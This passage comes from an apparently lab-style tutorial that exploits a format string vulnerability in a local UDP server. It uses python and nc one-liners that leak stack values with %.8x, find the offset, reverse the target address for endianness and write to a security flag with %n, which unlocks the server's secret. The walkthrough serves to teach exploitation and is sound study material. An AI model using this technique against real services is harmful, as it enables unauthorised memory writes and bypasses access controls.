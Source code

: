 
// restart the server.
```
```


Now, let’s unlock the secret by not knowing the correct password and by only switching the security flag, as we seen earlier, it’s address is: **0804a088**.


```
```
// If we send %.8x. 10 times we get the following output back. We're trying to pop the stack until we're at the beginning of our format string, this way we can inject things.


➜  ~ python3 -c "print('%.8x.'*10)" | nc 127.0.0.1 -u 9090
000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.30303030.33663130.3030302e


// We send out 'aaaa' which is 61616161 in hex and look, there's is a response containing aaaa. 
➜  ~ python3 -c "print('aaaa'+'%.8x.'*10)" | nc 127.0.0.1 -u 9090
aaaa000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.61616161.30303030.33663130.


// Narrowing it down we have to send 7 times %x in order to get the stack to point to our string. If we send 8 we miss it.
➜  ~ python3 -c "print('aaaa'+'%.8x.'*8)" | nc 127.0.0.1 -u 9090
aaaa000001f3.00000000.bfd45c74.bfd45888.b753a000.bfd457b4.00000000.61616161.
```
```


To write to the security flag we will make the stack point to our string and we will replace the *aaaa* with the address of the security\_flag which is: **0804a088**.


```
```
➜  ~ python -c "print('\x08\x04\xa0\x88'+'%.8x.'*8+'')" | nc -u 127.0.0.1 9090
��000001f3.00000000.bfea5bd4.bfea57e8.b7614000.bfea5714.00000000.88a00408.
// wait this doesn't look good, it looks like our address is displayed in reverse, this has to do with endianness, let's reverse the address.


➜  ~ python -c "print('\x88\xa0\x04\x08'+'%.8x.'*8+'')" | nc -u 127.0.0.1 9090
�000001f3.00000000.bfea5bd4.bfea57e8.b7614000.bfea5714.00000000.0804a088.
```
```


All we have to do now is go back one address and write to it:


```
```
// It doesn't matter what value we write to the flag since the program only checks if flag is zero.
➜  ~ python -c "print('\x88\xa0\x04\x08'+'%.8x.'*7+'%n')" | nc -u 127.0.0.1 9090
�000001f3.00000000.bfa41914.bfa41528.b7552000.bfa41454.00000000.


// Nothing happens. But if we try to contact the server again:
➜  ~ nc -u 127.0.0.1 9090
hello
secret unlocked
how
secret unlocked
```
```
